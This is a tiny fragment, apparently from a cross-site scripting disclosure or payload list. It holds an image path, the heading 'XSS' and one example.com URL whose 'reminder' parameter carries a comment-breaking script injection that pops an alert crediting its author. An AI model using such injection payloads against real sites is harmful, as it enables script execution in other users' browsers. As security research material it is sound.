 XSS
---

    https://www.example.com/alert.php?reminder=-->//"><script>alert(/XSS_vulnerability_proventia_s0x by Alex Hernandez/);</script>
